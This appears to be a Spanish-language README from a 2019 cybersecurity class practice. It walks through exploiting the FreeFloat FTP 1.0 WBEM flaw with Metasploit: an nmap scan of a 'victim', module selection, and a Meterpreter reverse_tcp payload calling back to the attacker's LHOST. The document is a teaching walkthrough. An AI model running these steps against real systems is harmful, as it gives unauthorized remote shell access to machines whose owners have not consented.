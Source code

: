# CiberPractica
Practica Ciberseguridad 2019

---------------------------------------------------------
# Información del exploit FreeFloat FTP Wbem Freefloat v1.0

este exploit lo ha subido sinn3r y juan vazquez (ambos de @metasploit):

esta vulnerabilidad fue encontrada en el servicio de freefloat 1.0, la cual permite a un usuario malicioso
ingresar al sistema que esté corriendo este servicio.
la forma en que el exploit se ejecuta es la siguiento:

  1. No se necesita credencial para iniciar sesión
  2. la ruta predeterminada del usuario está en C: \, y esto no se puede cambiar.
  3. el usuario puede escribir en cualquier parte del sistema de archivos del servidor. Como resultado de estas implementaciones deficientes,     un usuario malintencionado puede simplemente iniciar sesión y luego cargar archivos, y dejar que WMI ejecute la carga útil cargada

El exploit está cargado en la base de datos de metasploit framework, puede ser usado desde allí.
Finalmente, el exploit fue divulgado el 07/12/2012

# Instrucciones

1.Escanear el equipo victima para determinar en que puerto y que servicio está corriendo.<br>

  nmap -sC -sV -V 123.34.54.2 (ejemplo)<br>
  
2.Despues de identificar el puerto y servicio abrir metasploit (msfdb run ó msfconsole)<br>

3.Buscar el exploit:

  msf5 > search freefloat (ejemplo)<br>
  
4.Seleccionar el exploit:

  use exploit/windows/ftp/freefloat_ftp_wbem<br>
  
5.Ver la configuración del exploit, para ello usamos show options, show info y de ser necesario cambiar algun parametro
avanzado puede revisar la configuración avanzada con show advanced.

6.Cambiar los valores de RHOSTS y RPORT por el de la maquina victima y el puerto en donde corre el servicio, en este caso el 21
por defecto, los servicios de ftp usan este puerto, ademas para asegurarnos nos dimos cuenta que con nmap vimos que ese puerto corria
el servicio de ftp con freefloat 1.0v:

  set RHOST 123.34.54.2<br>
  set RPORT 21<br>
  
7.Seleccionamos el payload, en este caso se trata de un OS windows:

  set payload windows/meterpreter/reverse_tcp<br>
  
8.Cambiamos las opciones del payload, el LHOST y el LPORT, LHOST es nuestra maquina, a la cual se conectará la maquina victima,y LPORT es el puerto al que se conectará en nuestra maquina:

  set LPORT 4444<br>
  set LHOST 123.45.67.8<br>
  
9.AHORA SI, CORREMOS EL EXPLOIT :D   :

  msf5> run ó msf5> exploit (el clasico)<br>
 
 # FELIZ HACKING B)
 ![UPS NO CARGÓ LA IMAGEN :v ](https://opinionstage-res.cloudinary.com/image/upload/c_lfill,dpr_1.0,f_auto,fl_lossy,q_auto:good,w_700/v1/polls/sxso0xaofrrfzgaq3kqb)
 
# WebGrafía:

  https://www.rapid7.com/db/modules/exploit/windows/ftp/freefloatftp_wbem
  
# Herramientas usadas para la demo:

  nmap y NSE: https://nmap.org/<br>
  metasploitframework: https://www.metasploit.com/

